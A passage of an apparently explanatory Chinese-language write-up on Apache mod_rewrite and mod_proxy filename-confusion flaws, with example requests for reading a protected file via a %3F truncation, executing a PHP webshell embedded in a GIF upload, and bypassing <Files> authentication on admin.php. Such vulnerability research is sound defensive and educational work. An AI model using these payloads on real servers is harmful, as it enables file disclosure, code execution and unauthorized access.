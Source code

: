 由於 `mod_rewrite` 模組的路徑改寫會將當作網址處理，因此可透過 `?` 截斷後面的 `/profile.yml`。

```bash
$ curl http://server/user/1Ping%2Fsecret.yml%3F
# the output of file `/var/user/1Ping/secret.yml`
```

#### （二）誤導 `RewriteFlag` 規則

**漏洞觸發條件：**

* 使用 `mod_rewrite` 模組且設定基於副檔名的處理規則
* 存在文件上傳功能或可控制的檔案內容
* `RewriteRule` 規則基於檔案副檔名進行比對（如 `\.php$`）

除了誤導改寫網址外，也可以嘗試誤導 `RewriteFlag` 的規則。想像網站透過以下規則處理請求，當結尾 `.php` 時，則加上相對應的處理器，也可以是加上環境變數或 `Content-Type`。

```apacheconf
RewriteEngine On
RewriteRule  ^(.+\.php)$  $1  [H=application/x-httpd-php]
```

當請求一個資源 `1.gif%3fooo.php` 時，因為符合上方規則，因此會將其解析成 `php` 檔並執行，然而 `mod_rewrite` 會將其當作網址處理，因此回應資源 `1.gif`。透過此種方式，就有機會上傳帶有 PHP 惡意程式的 GIF 圖檔製作後門程式。

```bash
$ curl http://server/upload/1.gif
# Response: GIF89a <?=`id`;>

$ curl http://server/upload/1.gif%3fooo.php
# Response: GIF89a uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### （三）繞過認證與存取控制

* 預設安裝 PHP-FPM
* 針對單一檔案的認證或存取控制（如 `<Files>` 指令）

在 `mod_proxy` 模組，因為模組間對於檔案名稱理解的不一致，導致認證與存取控制的繞過。

以下是一個經典的範例，它透過 `File` 語法對單一檔案加上限制，只有被驗證的使用者才能存取 `admin.php` 檔案：

```apacheconf
<Files "admin.php">
    AuthType Basic 
    AuthName "Admin Panel"
    AuthUserFile "/etc/apache2/.htpasswd"
    Require valid-user
</Files>
```

在預設有安裝 PHP-FPM 的環境中，上放設定可以直接被繞過。假設你瀏覽以下路徑：

```url
http://server/admin.php%3Fooo.php
```

認證模組會將請求的檔名與保護的檔名比對，因為 `admin.php%3Fooo.php` 與 `admin.php` 不相符，因此模組認定此請求不需要被認證。
